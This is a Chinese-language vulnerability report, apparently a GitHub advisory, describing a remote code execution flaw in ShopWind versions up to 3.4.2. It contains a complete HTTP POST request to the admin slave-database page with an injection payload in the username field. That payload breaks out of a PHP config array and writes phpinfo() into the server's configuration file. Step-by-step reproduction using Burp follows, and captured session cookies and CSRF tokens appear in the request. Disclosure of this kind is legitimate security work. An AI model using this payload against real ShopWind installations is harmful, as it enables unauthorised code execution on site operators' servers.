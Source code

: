 # ShopWind的RCE漏洞

## 描述

漏洞页面为"\backend\library\Database.php"

http://host/admin/db/slave.html

影响版本：ShopWind <= v3.4.2

ShopWind v3.4.2 在Database.php文件中存在一个RCE漏洞

[+]payload:
```sql
POST /admin/db/slave.html HTTP/1.1
Host: local.rapoo.top
Content-Length: 284
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://local.rapoo.top
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://local.rapoo.top/admin/db/index.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: switchHistory=website%2Fdb; UM_distinctid=1803c2602eb210-05a24410a265d9-1734337f-1fa400-1803c2602ec659; bjui_theme=purple; XDEBUG_SESSION=PHPSTORM; CNZZDATA1618465=cnzz_eid%3D555001816-1650273840-%26ntime%3D1650346840; _csrf-frontend=371af4132d0a63bf3fd1cef592f81eb327b3777adef9c212fea509b4f4521de5a%3A2%3A%7Bi%3A0%3Bs%3A14%3A%22_csrf-frontend%22%3Bi%3A1%3Bs%3A32%3A%22ZHmjMt0Y09HQJ2MvIMYc2FgP3TEEQ17l%22%3B%7D; advanced-frontend=079naqu5qs1gid2vfc05euv481; advanced-backend=p78poo8n9hl27mks17hf2vlgll; _csrf-backend=ad56049615f6ba364b544685b88bf7aef7baeca4c875a1af3133961cccb509bfa%3A2%3A%7Bi%3A0%3Bs%3A13%3A%22_csrf-backend%22%3Bi%3A1%3Bs%3A32%3A%22y-o088Wj2bIB0WpJf8fRaiplRoDM9rDq%22%3B%7D; goodsBrowseHistory=c28cb2b6cbbb56efe1b54af4962a1184b1ff4c069830e85977639ad55216dd9ba%3A2%3A%7Bi%3A0%3Bs%3A18%3A%22goodsBrowseHistory%22%3Bi%3A1%3Bs%3A2%3A%2226%22%3B%7D
Connection: close

host=localhost&port=3306&dbname=shopwind&username=root',phpinfo(),
        'password' => 'root',
        'attributes' => 
        array (
          2 => 10,
        ),
        'dsn' => 'mysql:host=localhost;port=3306;dbname=shopwind',
      ),
    ),
  ),
);/*&password=root
```

## 打开配置菜单

打开后台-网站-数据库-配置

![image](https://user-images.githubusercontent.com/54017627/168497678-13d554bf-ade5-4e7d-bdcd-9f340b46caab.png)

## 2.2 点击添加从属数据库

打开配置窗口后，随意填写内容

![image](https://user-images.githubusercontent.com/54017627/168497705-9d152d25-3582-415f-8c19-2ec003119ccd.png)

## 2.3 用burp捕获数据包

![image](https://user-images.githubusercontent.com/54017627/168497719-d706c54a-e4e2-4985-a59e-ab87b3131128.png)

## 2.4 将用户名字段的值更改为我们的POC

```sql
root',phpinfo(),
        'password' => 'root',
        'attributes' => 
        array (
          2 => 10,
        ),
        'dsn' => 'mysql:host=localhost;port=3306;dbname=shopwind',
      ),
    ),
  ),
);/*
```

![image](https://user-images.githubusercontent.com/54017627/168497747-a22ecaac-b0a0-4b93-bf49-510bd4bdd1cb.png)

## 2.5 成功

![image](https://user-images.githubusercontent.com/54017627/168497759-5d02e6c0-032d-44de-bfde-ebff79163592.png)

您还可以单独访问配置文件。路径如下

```sql
http://host/data/config.php
```

![image](https://user-images.githubusercontent.com/54017627/168497775-1a73fe70-f42d-4192-9a8e-a858ff0e92ee.png)
